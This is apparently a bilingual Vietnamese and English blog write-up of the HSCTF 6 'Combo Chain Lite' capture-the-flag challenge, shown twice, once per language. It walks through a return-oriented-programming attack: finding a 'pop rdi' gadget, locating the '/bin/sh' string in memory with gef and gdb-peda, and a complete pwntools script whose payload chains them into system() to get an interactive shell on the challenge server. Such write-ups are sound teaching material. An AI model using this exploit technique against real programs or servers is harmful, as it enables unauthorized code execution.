 ```yaml
---
layout: post
published: true
title: 'HSCTF 6: Combo Chain Lite'
categories:
  - CTF
  - HSCTF
---
```

## \[ENGLISH BELOW]


Xin chào.
Hôm nay mình muốn viết lại challenge này.

![Capture-combo-chain-lite.PNG]({{site.baseurl}}/img/ctf/HSCTF/2019/Capture-combo-chain-lite.PNG)


Chall sử dụng [ROP (Return Oriented Programming)](https://ctf101.org/binary-exploitation/return-oriented-programming/). Nên trước tiên ta tìm địa chỉ chứa ROP gadgets phù hợp.
Trong quy ước gọi ([calling conventions](https://ctf101.org/binary-exploitation/what-are-calling-conventions/)), các đối số được truyền vào các registers trong các chương trình 64-bit theo thứ tự như link tham khảo. Trong trường hợp của gọi `system`, thì chúng ta cần phải điều khiển thanh ghi RDI. Mình sẽ tìm các ROP gadgets thông qua tool như [rp++](https://github.com/0vercl0k/rp) hoặc [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) liên quan tới `pop rdi`. 

{: .box-note}
ROPgadget \--binary ./combo-chain-lite \| grep "pop rdi"

Khi đã có được địa chỉ của ROP, ta sẽ cần tìm địa chỉ của hàm `system` khi được nạp vào chương trình khi được thực thi. Tuy nhiên ở đây chương trình đã cung cấp sẵn cho ta.

![exec-combo-chain-lite.PNG]({{site.baseurl}}/img/ctf/HSCTF/2019/exec-combo-chain-lite.PNG)

Tiếp theo ta cần tìm cách đưa chuỗi "/bin/sh" vào như đối số của `system`.
Nếu để ý thì trong chương trình đã có sẵn chuỗi đó, việc cần làm là tìm địa chỉ của nó trong chương trình mà thôi.

Có thể dùng gef hoặc gdb-peda.

-**Đối với gef:**
{% highlight bash linenos %}
$ gdb ./combo-chain-lite
gef➤  r
...
gef➤  grep /bin/sh
[+] Searching '/bin/sh' in memory
[+] In '/home/node/tmp/combo-chain-lite'(0x402000-0x403000), permission=r--
  0x402051 - 0x402058  →   "/bin/sh"
{% endhighlight %}

-**Đối với gdb-peda:**
{% highlight bash linenos %}
$ gdb ./combo-chain-lite
gdb-peda$ b*0x0000000000401209  #đặt breakpoint ở đoạn instruction sau khi in chuỗi
gdb-peda$ r
...
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 3 results, display max 3 items:
combo-chain-lite : 0x402051 --> 0x68732f6e69622f ('/bin/sh')
combo-chain-lite : 0x403051 --> 0x68732f6e69622f ('/bin/sh')
            libc : 0x7ffff7f67e80 --> 0x68732f6e69622f ('/bin/sh')
{% endhighlight %}


  

Đoạn code exploit của mình:

{% highlight python linenos %}
#Completed

from pwn import *

rm = remote("pwn.hsctf.com", 3131)

padding = "AAA%AAsAABAA$AAn" #16 ki tu (random pattern)
rop_addr = p64(0x0000000000401273)
bin_addr = p64(0x402051) #hoac 0x403051 /bin/sh string
sys_addr = p64(int(rm.recv().rsplit(': ')[1], 16)) 

payload = padding + rop_addr  + bin_addr + sys_addr
print payload
rm.recv()
rm.sendline(payload)
rm.interactive()
rm.close()
{% endhighlight %}

![combo-chain-lite-exploit.png]({{site.baseurl}}/img/ctf/HSCTF/2019/combo-chain-lite-exploit.png)

Done.


## ENGLISH

Hello everyone, here is the challenge:
![Capture-combo-chain-lite.PNG]({{site.baseurl}}/img/ctf/HSCTF/2019/Capture-combo-chain-lite.PNG)

Challenge uses [ROP (Return Oriented Programming)](https://ctf101.org/binary-exploitation/return-oriented-programming/). So first we need to find right ROP gadgets addresses.
In ([calling conventions](https://ctf101.org/binary-exploitation/what-are-calling-conventions/)), arguments are passed in registers in 64-bit programs. In the case of running `system`, this means we will need to find a way to control the RDI register. We will find ROP gadgets through tools like [rp++](https://github.com/0vercl0k/rp) or [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) that have `pop rdi`. 

{: .box-note}
ROPgadget \--binary ./combo-chain-lite \| grep "pop rdi"

After having ROP address, we need to find the address of `system` function that imported when executing the program. But here, the program has provided for us.
​
![exec-combo-chain-lite.PNG]({{site.baseurl}}/img/ctf/HSCTF/2019/exec-combo-chain-lite.PNG)
​
Next, try to figure out how to put the string "/bin/sh" as `system`'s argument.
If you look closer, in the program already has that string, we only need to figure out the address of it.
​
We can use gef or gdb-peda.
​
-**With gef:**
{% highlight bash linenos %}
$ gdb ./combo-chain-lite
gef➤  r
...
gef➤  grep /bin/sh
[+] Searching '/bin/sh' in memory
[+] In '/home/node/tmp/combo-chain-lite'(0x402000-0x403000), permission=r--
  0x402051 - 0x402058  →   "/bin/sh"
{% endhighlight %}
​
-**With gdb-peda:**
{% highlight bash linenos %}
$ gdb ./combo-chain-lite
gdb-peda$ b*0x0000000000401209  #đặt breakpoint ở đoạn instruction sau khi in chuỗi
gdb-peda$ r
...
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 3 results, display max 3 items:
combo-chain-lite : 0x402051 --> 0x68732f6e69622f ('/bin/sh')
combo-chain-lite : 0x403051 --> 0x68732f6e69622f ('/bin/sh')
            libc : 0x7ffff7f67e80 --> 0x68732f6e69622f ('/bin/sh')
{% endhighlight %}
​

​
My exploit code:
​
{% highlight python linenos %}
#Completed
​
from pwn import *
​
rm = remote("pwn.hsctf.com", 3131)
​
padding = "AAA%AAsAABAA$AAn" #16 ki tu (random pattern)
rop_addr = p64(0x0000000000401273)
bin_addr = p64(0x402051) #hoac 0x403051 /bin/sh string
sys_addr = p64(int(rm.recv().rsplit(': ')[1], 16)) 
​
payload = padding + rop_addr  + bin_addr + sys_addr
print payload
rm.recv()
rm.sendline(payload)
rm.interactive()
rm.close()
{% endhighlight %}
​
![combo-chain-lite-exploit.png]({{site.baseurl}}/img/ctf/HSCTF/2019/combo-chain-lite-exploit.png)
​
Done.
​